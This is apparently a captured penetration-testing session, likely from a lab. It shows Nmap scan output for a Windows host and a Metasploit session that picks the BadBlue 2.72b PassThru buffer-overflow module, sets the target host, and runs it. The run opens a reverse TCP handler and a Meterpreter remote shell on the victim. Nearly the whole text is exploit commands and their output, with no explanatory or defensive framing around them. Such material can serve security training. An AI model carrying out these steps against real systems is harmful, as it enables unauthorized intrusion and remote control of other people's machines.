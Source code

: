 ```
[*] Nmap: 49154/tcp open  msrpc        Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc        Microsoft Windows RPC
[*] Nmap: 49165/tcp open  msrpc        Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 60.43 seconds

```

```
msf5 > search badblue

Matching Modules
================

   #  Name                                       Disclosure Date  Rank   Check  Description
   -  ----                                       ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_ext_overflow  2003-04-20       great  Yes    BadBlue 2.5 EXT.dll Buffer Overflow
   1  exploit/windows/http/badblue_passthru      2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


msf5 > use exploit/windows/http/badblue_passthru
msf5 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.0.31.240      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf5 exploit(windows/http/badblue_passthru) > set target 
set target 0                            set target BadBlue\ 2.72b\ Universal    
set target 1                            set target BadBlue\ EE\ 2.7\ Universal  
msf5 exploit(windows/http/badblue_passthru) > set target BadBlue\ EE\ 2.7\ Universal 
target => BadBlue EE 2.7 Universal
msf5 exploit(windows/http/badblue_passthru) > exploit

[*] Started reverse TCP handler on 10.10.21.5:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (180291 bytes) to 10.0.31.240
[*] Meterpreter session 1 opened (10.10.21.5:4444 -> 10.0.31.240:49231) at 2023-03-01 18:45:25 +0530

meterpreter > 

```
